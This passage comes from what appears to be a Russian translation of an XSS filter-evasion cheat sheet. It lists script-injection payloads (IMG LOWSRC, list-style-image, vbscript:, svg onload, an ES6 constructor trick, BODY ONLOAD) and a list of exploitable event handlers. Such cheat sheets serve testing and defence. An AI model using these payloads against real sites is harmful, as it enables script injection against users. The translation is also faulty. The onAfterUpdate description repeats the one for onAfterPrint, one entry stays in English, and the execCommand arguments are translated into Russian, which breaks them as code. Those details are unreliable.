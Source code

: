 ```html
<IMG LOWSRC="javascript:alert('XSS')">
```

### Список-стиль-изображение

Эта эзотерическая атака направлена на встраивание изображений в маркированные списки. Она будет работать только в движке рендеринга IE из-за директивы JavaScript. Не особенно полезный XSS-вектор:

```html
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

### VBScript в атрибуте

```html
<IMG SRC='vbscript:msgbox("XSS")'>
```

### Тег объекта SVG

```js
<svg/onload=alert('XSS')>
```

### ECMAScript 6

```js
Set.constructor`alert\x28document.domain\x29
```

### Тэг BODY 

Эта атака не требует использования каких-либо вариантов `javascript:` или `<SCRIPT...` для выполнения XSS-атаки. Дэн Кроули отметил, что вы можете поставить пробел перед знаком равенства (`onload=` != `onload =`).:

```html
<BODY ONLOAD=alert('XSS')>
```

#### Атаки с использованием обработчиков событий

Атака с использованием тега BODY может быть модифицирована для использования в XSS-атаках, аналогичных описанной выше (на момент написания этой статьи это самый полный список в Сети). Спасибо Рене Левеску за обновления HTML+TIME.

В [веб-справочнике Dottoro](http://help.dottoro.com/) также есть хороший [список событий в JavaScript](http://help.dottoro.com/ljfvvdnm.php).

- `onAbort()` (когда пользователь прерывает загрузку изображения)
- `onActivate()` (когда объект установлен в качестве активного элемента)
- `onAfterPrint()` (activates after user prints or previews print job)
- `onAfterUpdate()` (активируется после того, как пользователь распечатает или предварительно просмотрит задание на печать)
- `onBeforeActivate()` (срабатывает до того, как объект будет установлен в качестве активного элемента)
- `onBeforeCopy()` (злоумышленник выполняет строку атаки непосредственно перед копированием выделенной области в буфер обмена - злоумышленники могут сделать это с помощью функции `execCommand("Копировать")`)
- `onBeforeCut()` (атакующий выполняет строку атаки непосредственно перед удалением выделения)
- `onBeforeDeactivate()` (срабатывает сразу после изменения activeElement с текущего объекта)
- `onBeforeEditFocus()` (срабатывает до того, как объект, содержащийся в редактируемом элементе, переходит в состояние, активируемое пользовательским интерфейсом, или когда выбран элемент управления редактируемым контейнером)
- `onBeforePaste()` (пользователя нужно заставить вставить файл обманом или принудительно, используя функцию `execCommand("Вставить")`)
- `OnBeforePrint()` (пользователя нужно было бы обманом заставить напечатать, или злоумышленник мог бы использовать функцию `print()` или `execCommand("Печать")`).